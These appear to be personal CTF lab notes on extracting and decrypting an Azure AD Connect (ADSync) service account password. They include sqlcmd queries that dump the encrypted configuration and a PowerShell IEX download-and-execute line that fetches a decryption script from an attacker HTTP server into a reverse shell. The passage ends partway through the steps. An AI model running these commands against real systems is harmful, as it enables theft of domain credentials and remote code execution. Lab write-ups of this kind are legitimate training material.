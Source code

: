 With #SQLCMD grab the private config xml 

`sqlcmd -Q "Use ADSync; select private_ configuration_xml FROM mms_management_agent"`

Get some details like forest login, forest domain, etc. 
![[Pasted image 20241222205322.png]]

Grab the encrypted info as well to display the encrypted password!

`sqlcmd -Q "Use ADSync; select private_configuration_xml, encrypted_configuration FROM mms_management_agent"`

![[Pasted image 20241222205657.png]]
Going back to that blogpost to figure out how to decrypt the password..author has a POC to decrypt it. 

![[Pasted image 20241222210040.png]]
Copy and paste this POC script to a file on Parrot box called `decrypt.ps1` or `decrypt.sh` for syntax highlighting in vim.

Need to query `keyset_id, instance_id, and entropy`
using sqlcmd again to fill values from decryption script. 

![[Pasted image 20241222210459.png]]

Dropping this script onto reverse shell using #IEX

First serve up the script with #pythonhttpserver 

`python3 -m http.server`

Grab it 

`IEX(New-Object Net.WebClient).downloadString(http://10.10.14.2:8000/decrypt.ps1')`

This crashes winrm for some reason

![[Pasted image 20241222211106.png]]
Going to figure out which part of the script is failing by copying and pasting each line of the script into remote shell one by one. 

![[Pasted image 20241222211240.png]]
Literally line 2 `$client.Open()` caused an error, but that was the only problem. 

![[Pasted image 20241222211351.png]]
Looks like PoC script is for a remote connection, but we are doing a local connection. 

Googling other methods to connect to SQL server..

`$sqlConn = New-Object System.Data.SqlClient.SqlConnection`

`$sqlConn.ConnectionString = "Server=localhost\sql12; Integrated Security=true; Initial Catalog=master"`

`$sqlConn. Open()`

![[Local SQL Server Connection Command.png]]
Modifying our command to:
